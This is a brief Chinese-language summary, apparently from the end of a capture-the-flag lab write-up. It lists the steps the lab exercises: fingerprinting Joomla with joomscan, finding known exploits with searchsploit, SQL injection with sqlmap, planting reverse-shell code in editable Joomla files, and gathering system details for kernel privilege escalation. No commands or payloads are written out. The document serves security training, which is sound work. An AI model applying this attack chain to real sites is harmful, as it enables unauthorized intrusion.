


# 总结

该靶场考察以下几点

1. 对于网站CMS的了解，这里是考察`joomla`的了解，以及对于工具`joomscan`来确定其版本，当然这里使用该工具也是可以获取到漏洞信息的
2. 使用`searchsploit`搜索CMS对于版本的历史漏洞，进行复现即可
3. 对于`sqlmap`该工具的基本使用
4. 了解`joomla`默认的一些路径，以及哪些地方可以修改并附上反弹`shell`代码
5. 对于一台机器的系统相关信息的收集，这个也是决定了能否在无特权文件的情况下，尝试进行内核方面的提权


